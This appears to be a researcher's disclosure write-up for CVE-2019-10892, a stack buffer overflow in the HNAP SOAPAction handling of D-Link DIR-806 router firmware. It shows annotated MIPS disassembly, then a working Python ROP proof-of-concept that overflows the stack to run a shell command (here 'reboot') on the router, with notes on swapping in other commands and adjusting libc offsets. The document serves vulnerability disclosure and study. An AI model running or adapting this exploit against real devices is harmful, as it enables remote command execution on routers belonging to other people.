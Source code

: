 **CVE-2019-10892**

The fireware is the lasted version of DIR-806 in DLINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
just like the start of:
```
https://github.com/Kirin-say/Vulnerabilities/blob/master/DIR-806_Code_Injection.md
```
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
then it will call the sprintf function but it won't check the length of the strings that it goyt by strrchr,and it store it in the stack:
```
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
```
so that we can overflow the $s0-s7 and $ra when hnap_main return:
```
.text:004124C4                 lw      $ra, 0x248+var_4($sp)
.text:004124C8                 lw      $s7, 0x248+var_8($sp)
.text:004124CC                 lw      $s6, 0x248+var_C($sp)
.text:004124D0                 lw      $s5, 0x248+var_10($sp)
.text:004124D4                 lw      $s4, 0x248+var_14($sp)
.text:004124D8                 lw      $s3, 0x248+var_18($sp)
.text:004124DC                 lw      $s2, 0x248+var_1C($sp)
.text:004124E0                 lw      $s1, 0x248+var_20($sp)
.text:004124E4                 lw      $s0, 0x248+var_24($sp)
.text:004124E8                 jr      $ra
.text:004124EC                 addiu   $sp, 0x248
```
If we make a rop chain in stack,it will finally call the system(our cmd)
## POC
```
from pwn import *
import requests
import sys
def get_payload():
  cmd="reboot;".ljust(30,"a")
  libc_addr=0x7679BA60-0x002aa60
  payload="http://purenetworks.com/HNAP1/GetDeviceSettings/"
  payload+="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"  
  payload+="aaaa"*6
  payload+=p32(libc_addr+0x003E204)[::-1]#s6
  payload+=p32(libc_addr+0x052510)[::-1]#s7
  payload+=p32(libc_addr+0x0F5B4)[::-1]#ra->get cmd in s4->jar s6
  payload+="aaaa"*4
  payload+=cmd
  return payload
data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    fake_cmd=get_payload()
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    log.info("Kirin-say PWN")
```
you can also edit the cmd to run different shell,but you should also edit the libc_addr because I write this POC by qemu,so you should edit offset of libc.so.0 in real environment.
 For example(the router reboot successfully) 
![Success](https://upload-images.jianshu.io/upload_images/7434375-a0bda011a271ec24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
